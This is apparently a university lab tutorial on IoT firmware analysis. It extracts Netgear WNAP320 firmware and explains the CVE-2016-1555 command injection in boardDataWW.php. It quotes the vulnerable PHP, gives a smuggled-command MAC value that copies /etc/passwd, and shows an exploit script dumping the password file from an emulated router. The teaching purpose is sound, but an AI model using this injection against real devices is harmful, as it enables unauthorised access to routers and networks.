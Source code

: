 # Lab 9: IoT CI & CPS

A challenge of dealing with IoT and Cyberphysical Systems in general is that the software runs on specific hardware rather than general purpose computers. Also, there are a number of different operating systems that these devices can use.  IoT are different from normal computers in that they have less resources like memory to operate with and usually are diskless. 

Having said that, a large number of consumer devices operate on a linux or linux-like system and so that makes analysis of these devices and even software emulation somewhat simpler. 

IoT have a history of poor security. One of the principle areas of concern, and one we will look at in this lab has been the use of hard-coded passwords for remote access to the devices and leaving access to those services open by default.

## Examining firmware 

In this exercise, we are going to be looking at the firmware from a Netgear Wireless Router the WNAP320 which was a consumer wireless router which went on sale in 2010 but was available for several years after that. Like all consumer router devices, it provides a web interface to administer the device. It also supports remote access using Telnet and SSH which are not enabled by default. The administration function is normally accessed by being on the local network or by using a direct cable to connect to the device. Some details of the device are provided here: [https://usermanual.wiki/Netgear/NetgearWnap320QuickReferenceGuide.33658341/html](https://usermanual.wiki/Netgear/NetgearWnap320QuickReferenceGuide.33658341/html)

The device ships with a default username of **admin** and a password of **password**. This is already a problem because a large number of users would leave the device configured with the defaults and never change them.

Let us start by using the docker container as follows

```bash
docker run -p 8000:8000 -it cybernemosyne/cits1003:iot 
```

Change directory to /opt/samples/WNAP320

In that directory is a ZIP file which is the firmware for the WNAP320 router \(alternatively, you can still download the firmware from Netgear http://www.downloads.netgear.com/files/GDC/WNAP320/WNAP320%20Firmware%20Version%202.0.3.zip\)

Let us unzip the file and see what it contains

```bash
> unzip WNAP320\ Firmware\ Version\ 2.0.3.zip 
Archive:  WNAP320 Firmware Version 2.0.3.zip
  inflating: ReleaseNotes_WNAP320_fw_2.0.3.HTML  
  inflating: WNAP320_V2.0.3_firmware.tar  
```

The file WNAPP320V2.0.3\_firmware.tar file is another archive file \(colloquially called a tarball\). We can extract this using the tar utility:

```bash
> tar -xvf WNAP320_V2.0.3_firmware.tar 
vmlinux.gz.uImage
rootfs.squashfs
root_fs.md5
kernel.md5
```

The vmlinux.gz.uImage is the actual kernel of the operating system and contains all of the code that will run that when booted on a device. The rootfs.sqaushfs is the file system in squashfs format. The files with the md5 extension are the MD5 hashes of the image and squashfs files. To look at the contents of the squashfs file, we need to extract this file and we can use the **binwalk** tool to do this:

```bash
> binwalk -e rootfs.squashfs 

DECIMAL       HEXADECIMAL     DESCRIPTION
--------------------------------------------------------------------------------
0             0x0             Squashfs filesystem, big endian, lzma signature, version 3.1, size: 4433988 bytes, 1247 inodes, blocksize: 65536 bytes, created: 2011-06-23 10:46:19

root@c3e1d7ac5055:/opt/samples/WNAP320# ls -al
total 15864
drwxr-xr-x 1 root root    4096 Jul  9 03:14  .
drwxr-xr-x 1 root root    4096 Jul  8 04:44  ..
-rw-r--r-- 1 root root    2667 Apr  3  2012  ReleaseNotes_WNAP320_fw_2.0.3.HTML
-rw-r--r-- 1 root root 5362552 Apr  4  2012 'WNAP320 Firmware Version 2.0.3.zip'
-rw-r--r-- 1 root root 5427200 Apr  3  2012  WNAP320_V2.0.3_firmware.tar
drwxr-xr-x 3 root root    4096 Jul  9 03:14  _rootfs.squashfs.extracted
-rw-r--r-- 1 root root      36 Jun 23  2011  kernel.md5
-rw-r--r-- 1 root root      36 Jun 23  2011  root_fs.md5
-rwx------ 1 root root 4435968 Jun 23  2011  rootfs.squashfs
-rw-r--r-- 1 root root  983104 Jun 23  2011  vmlinux.gz.uImage
```

This will now extract a directory \_rootfs.squashfs.extracted that contains squashfs-root which is the root of the filesystem for the firmware:

```bash
/squashfs-root# ls -al
total 52
drwxr-xr-x 13 root root 4096 Jun 23  2011 .
drwxr-xr-x  3 root root 4096 Jul  9 03:14 ..
drwxr-xr-x  2 root root 4096 Jun 23  2011 bin
drwxr-xr-x  3 root root 4096 Jun 23  2011 dev
drwxr-xr-x  6 root root 4096 Jun 23  2011 etc
drwxr-xr-x  4 root root 4096 Jun 23  2011 home
drwxr-xr-x  3 root root 4096 Jun 23  2011 lib
lrwxrwxrwx  1 root root   11 Jun 23  2011 linuxrc -> bin/busybox
drwxr-xr-x  2 root root 4096 Aug 22  2008 proc
drwxr-xr-x  2 root root 4096 Aug 22  2008 root
drwxr-xr-x  2 root root 4096 Jun 23  2011 sbin
drwxr-xr-x  2 root root 4096 Aug 22  2008 tmp
drwxr-xr-x  7 root root 4096 Jun 23  2011 usr
drwxr-xr-x  2 root root 4096 Nov 11  2008 var
```

This is the layout of a normal linux-based operating system. 

When exploring the firmware, we would start by looking at where the source code for the management functionality is stored. In this software, that is in /home/www and if you look in that directory, you will find PHP files that represent the code that runs the administration website:

```bash
.../squashfs-root/home/www# ls
BackupConfig.php  boardDataWW.php  checkSession.php  data.php            header.php  index.php          login_header.php  packetCapture.php  saveTable.php   test.php        tmpl
UserGuide.html    body.php         clearLog.php      downloadFile.php    help        killall.php        logout.html       recreate.php       siteSurvey.php  thirdMenu.html
background.html   button.html      common.php        getBoardConfig.php  images      login.php          logout.php        redirect.html      support.link    thirdMenu.php
boardDataNA.php   checkConfig.php  config.php        getJsonData.php     include     login_button.html  monitorFile.cfg   redirect.php       templates       titleLogo.php
```

It turns out that there is a vulnerability in a number of these files that allows for remote command execution \(RCE\) that has the CVE CVE-2016-1555. The exploit code is listed on exploit-db here [https://www.exploit-db.com/exploits/45909](https://www.exploit-db.com/exploits/45909)

One of the affected files is boardDataWW.php and the specific code at fault is:

```php
		if (!empty($_REQUEST['macAddress']) && array_search($_REQUEST['reginfo'],Array('WW'=>'0','NA'=>'1'))!==false && ereg("[0-9a-fA-F]{12,12}",$_REQUEST['macAddress'],$regs)!==false) {
			//echo "test ".$_REQUEST['macAddress']." ".$_REQUEST['reginfo'];
			//exec("wr_mfg_data ".$_REQUEST['macAddress']." ".$_REQUEST['reginfo'],$dummy,$res);
			exec("wr_mfg_data -m ".$_REQUEST['macAddress']." -c ".$_REQUEST['reginfo'],$dummy,$res);
```

This code file is responsible for showing this page to capture a MAC address for the device:

![Screen handled by boardDataWW.php](.gitbook/assets/screen-shot-2021-07-09-at-2.26.16-pm.png)

When the user enters a MAC address and clicks the submit button, the code above checks that it has been sent a valid MAC address \(12 characters, alphanumeric\) and a region code, and then it passes that to a command line utility called wr\_mfg\_data. If the MAC address was f8ffc201fae5 and region code was 1, the command that would be executed would be:

```bash
wr_mfg_data -m f8ffc201fae5 -c 1
```

You will notice that there is no validation of the input to this command by the code. It just checks that the first 12 characters of the MAC address are alphanumeric. This means we can add data to the end of a valid MAC address and it will accept it. So if  we add a second command to the address, it will be executed as well. To do that, we use the command separator ; as follows:

```bash
wr_mfg_data -m f8ffc201fae5;cp /etc/passwd test.html; -c 1
```

To achieve this we would put "f8ffc201fae5;cp /etc/passwd test.html;" into the text box for the MAC address. The second command copies the password file to an HTML file test.html that we can then access from the website.

For this to work, we need to bypass a JavaScript validation check in the browser of the MAC address but that is trivial to do. 

### Testing the Vulnerability

Short of going out and buying a wireless router to test this on, we can run the firmware in an emulator. There is an open source toolset that allows you to do that called Firmadyne. It is beyond the scope of this lab to set that up and get it running however, there is a version that I have set up on a Cloud VM that you can access with an exploit script. To run this, you can type:

```bash
root@c3e1d7ac5055:/opt/samples/WNAP320# ./exploit.py /etc/passwd
root:x:0:0:root:/root:/bin/sh
daemon:x:1:1:daemon:/usr/sbin:/bin/sh
bin:x:2:2:bin:/bin:/bin/sh
sys:x:3:3:sys:/dev:/bin/sh
sync:x:4:100:sync:/bin:/bin/sync
mail:x:8:8:mail:/var/spool/mail:/bin/sh
proxy:x:13:13:proxy:/bin:/bin/sh
www-data:x:33:33:www-data:/var/www:/bin/sh
backup:x:34:34:backup:/var/backups:/bin/sh
operator:x:37:37:Operator:/var:/bin/sh
haldaemon:x:68:68:hald:/:/bin/sh
dbus:x:81:81:dbus:/var/run/dbus:/bin/sh
nobody:x:99:99:nobody:/home:/bin/sh
sshd:x:103:99:Operator:/var:/bin/sh
admin:x:0:0:Default non-root user:/home/cli/menu:/usr/sbin/cli
```

If you are interested, you can look at the code in the Python script exploit.py. It takes one argument, the file on the router you want to look at. Of course, the script could be changed to insert a backdoor into the router and then gain access to the network that the router is connected to. 




